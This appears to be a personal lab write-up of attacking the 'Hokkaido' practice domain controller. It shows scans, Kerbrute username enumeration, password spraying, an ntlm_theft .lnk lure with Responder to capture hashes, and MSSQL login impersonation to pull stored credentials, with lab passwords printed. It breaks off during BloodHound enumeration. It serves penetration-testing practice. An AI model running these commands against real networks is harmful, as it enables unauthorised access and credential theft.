# Hokkaido

This box is broken. I got stuck, called up the walkthrough, and the techniques it showed did not work on the box. Therefore I did not finish it.

## Enumeration

Started with an Nmap TCP SYN scan of all externally-accessible ports:


```
# Nmap 7.94SVN scan initiated Fri Jun 21 14:44:06 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.151.40
Nmap scan report for 192.168.151.40
Host is up (0.052s latency).
Not shown: 65502 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 20:45:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-12-14T15:40:09
|_Not valid after:  2053-12-14T15:40:09
| ms-sql-ntlm-info: 
|   192.168.151.40:1433: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   192.168.151.40:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-06-21T20:46:19+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hokkaido-aerospace.com0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.hokkaido-aerospace.com
| Not valid before: 2023-12-07T13:54:18
|_Not valid after:  2024-12-06T13:54:18
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-06-21T20:46:19+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.hokkaido-aerospace.com
| Not valid before: 2024-06-20T20:43:21
|_Not valid after:  2024-12-20T20:43:21
| rdp-ntlm-info: 
|   Target_Name: HAERO
|   NetBIOS_Domain_Name: HAERO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hokkaido-aerospace.com
|   DNS_Computer_Name: dc.hokkaido-aerospace.com
|   DNS_Tree_Name: hokkaido-aerospace.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-06-21T20:46:11+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Potentially risky methods: TRACE
8531/tcp  open  unknown
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49684/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
58538/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-06-21T20:46:19+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-12-14T15:40:09
|_Not valid after:  2053-12-14T15:40:09
| ms-sql-ntlm-info: 
|   192.168.151.40:58538: 
|     Target_Name: HAERO
|     NetBIOS_Domain_Name: HAERO
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: hokkaido-aerospace.com
|     DNS_Computer_Name: dc.hokkaido-aerospace.com
|     DNS_Tree_Name: hokkaido-aerospace.com
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   192.168.151.40:58538: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 58538
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/21%OT=53%CT=1%CU=38438%PV=Y%DS=4%DC=T%G=Y%TM=6675
OS:E69D%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=I%TS=A)OPS(O1=M55
OS:1NW8ST11%O2=M551NW8ST11%O3=M551NW8NNT11%O4=M551NW8ST11%O5=M551NW8ST11%O6
OS:=M551ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF
OS:=Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=A898
OS:%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-21T20:46:10
|_  start_date: N/A
```


Looks like the DC for the `hokkaido-aerospace.com` domain.

### Port 53

I can confirm it is in the `hokkaido-aerospace.com` domain and that it is the domain controller:

<figure><figcaption><p>Dig results for domain</p></figcaption></figure>

### Port 80

The landing page is just the default IIS homepage:

<figure><figcaption><p>Landing page with Wappalyzer output</p></figcaption></figure>

It does not seem like there is a ton here but I work up a wordlist and run `feroxbuster`:


```bash
feroxbuster -L 20 -w ./web_enum.txt -k -x @ferox_extensions.txt -C 404 -E -r -u http://hokkaido-aerospace.com -o ./p80.feroxbuster
```


Unfortunately not much comes of it:

<figure><figcaption></figcaption></figure>

### Port 88

I ran [Kerbrute](https://github.com/ropnop/kerbrute) against port 88 for some user enumeration. My first step was userenum and I ran it with the `xato-net-10-million-usernames` list:


```bash
./kerbrute_linux_amd64 userenum --dc 192.168.151.40 -d hokkaido-aerospace.com /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```


This found several users which I put into a `users.txt` file:

<figure><figcaption><p>Kerbrute user enumeration</p></figcaption></figure>


```
info
administrator
discovery
maintenance
```


### Port 135

My initial anonymous RPC enumeration was fruitless:

<figure><figcaption></figcaption></figure>

No notable RPC interfaces were found in the output.

### Ports 139 & 445

Anonymous and guest enumeration of SMB was unsuccessful:

<figure><figcaption><p>Anonymous SMB enumeration</p></figcaption></figure>

### Ports 389 & 636

Anonymous LDAP enumeration does not go much better:

<figure><figcaption><p>Unable to bind anonymously</p></figcaption></figure>

### Port 1433

This is generally the MSSQL port. I attempt a password spray of default MSSQL credentials but am unable to authenticate:

<figure><figcaption><p>Hydra MSSQL attempt</p></figcaption></figure>

This is a weird port to have externally exposed so perhaps it will be useful later if I can find some creds.

### Port 8350

Port 8350 runs into a 403 forbidden page:

<figure><figcaption><p>Port 8530 403 error</p></figcaption></figure>

I ran some quick fuzzing commands:

<figure><figcaption><p>ffuf on port 8530</p></figcaption></figure>

These results make it seem like an API of sorts. Mainly because of the `/?` endpoint.

I spent a bit of time trying to get the 403 bypass techniques [shown here](https://blog.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/) to work but no success.

## Foothold

I decide to do some testing of the users I found above. I will run them through crackmapexec for SMB since I know that's running on the machine. I have my users.txt file. I generate a pass.txt file with a copy of `users.txt` and some words found around the machine.


```bash
crackmapexec smb 192.168.151.40 -u users.txt -p pass.txt --shares
```


<figure><figcaption><p>Login found</p></figcaption></figure>

It seems the `info` user is using its own username as its password.

### Authenticated SMB Enumeration

Now that I have some credentials I sign into the `\homes` share and immediately have even more usernames to add to my list:

<figure><figcaption><p>All the users with a directory in homes</p></figcaption></figure>

Unfortunately I could not see files in any of the home directories. I continue on to the other available shares. On the NETLOGON share I find something interesting:

<figure><figcaption><p>Interesting text file</p></figcaption></figure>

I grab the file and read it:


```
Initial Password: Start123!
```


I plug that in to `crackmapexec` with the user list I have and quickly find the account it belongs to:

<figure><figcaption></figcaption></figure>

I add this to my `creds.txt` file:


```
info:info           Brute-Forced
discovery:Start123! Found on NETLOGON share
```


Unfortunately it only seems to have the same permissions for SMB as my previous user (`info`). I check for WinRM access but no luck.

While I was waiting I stuck an ntlm\_theft payload on the homes share and launched responder:


```bash
python3 ./ntlm_theft.py -g lnk -s 192.168.45.234 -f thft
```


```bash
sudo responder -I tun0 -v
```

Once set up I put the `thft.lnk` file on `\\192.168.151.40\homes` and waited just in case this was a client-compromise-type situation (it was not).

### MSSQL

I recall that port 1433 was open for some reason. I now have some credentials so I decide to get started. First I run with the info:info creds and am able to get a connection:


```bash
impacket-mssqlclient 'hokkaido-aerospace.com/info':'info'@192.168.151.40 -windows-auth
```


<figure><figcaption><p>Valid MSSQL connection</p></figcaption></figure>

I start by checking the databases on the machine:

```sql
enum_db
```

<figure><figcaption><p>Databases</p></figcaption></figure>

The `hrappdb` catches my attention. It could contain valuable employee information if it is indeed an "HR app database." Unfortunately when I attempt to open it I run into an issue:

```sql
use hrappdb
```

<figure><figcaption><p>hrappdb is inaccessible</p></figcaption></figure>

I decide to try with my other user but same result:

<figure><figcaption><p>Other user also cannot access</p></figcaption></figure>

Unfortunately [research reveals](https://stackoverflow.com/questions/19009488/the-server-principal-is-not-able-to-access-the-database-under-the-current-securi) this error means my user is not mapped to the database. Perhaps it can be viewed as a different user

#### MSSQL Impersonation

MSSQL has an [Impersonate property](https://www.hackingarticles.in/mssql-for-pentester-impersonate/). An example from the previously linked source explains a use case for this property:

Imagine a client application needs to access a database on the server, but the client doesn’t run under a privileged account. In this case, MSSQL impersonation will enable the client application to access the database without credentials for accessing it on the server. This is useful when architecting Web or file-sharing services where anonymous or unauthenticated users can upload data for other users to download. The client application would access the database without providing credentials by enabling impersonation with an anonymous user account. The only credentials required would be for creating/dropping/replicating tables.

So perhaps if this MSSQL instance is set up this way I could impersonate some user who does have access to the `hrappdb` database.

I poke around a bit and it turns out there is a [query to check](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#impersonation-of-other-users) if the current user is allowed to impersonate anyone:

```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

This can be condensed into a one-liner:


```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```


When run with the discovery user I find that I am allowed to impersonate the user `hrappdb-reader`:

<figure><figcaption><p>Allowed to impersonate user</p></figcaption></figure>

Well that is super handy. The command to actually impersonate the user is:

```sql
EXECUTE AS LOGIN = 'hrappdb-reader'
```

Once run I can switch to `hrappdb` and I quickly find  an interesting table named `sysauth` which contained another set of credentials:

<figure><figcaption><p>Credentials found in hrappdb</p></figcaption></figure>

Which are added to `creds.txt`:


```
info:info                   Brute-Forced
discovery:Start123!         Found on NETLOGON share
hrapp-service:Untimed$Runny Found in MSSQL (hrabbdb)
```


I validate them with CrackMapExec. It seems to have the same shares but still no remote access:

<figure><figcaption><p>Validating the new credentials</p></figcaption></figure>

### Enumeration with hrapp-service

I decide to do some domain enumeration again with this new `hrapp-service` account. Perhaps an HR service account would have some elevated privileges if it was set up by IT to allow adding/removing of employees or something. I use BloodHound for the enumeration:


```bash
bloodhound-python -u hrapp-service -p 'Untimed$Runny' -v --zip -c All -d hokkaido-aerospace.com -ns 192.168.151.40
```



```bash
certipy-ad find -u 'hrapp-service' -p 'Untimed$Runny' -dc-ip 192.168.151.40 -enabled -old-bloodhound
```


This generates 2 output `.zip` archives which I upload to BloodHound for analysis:

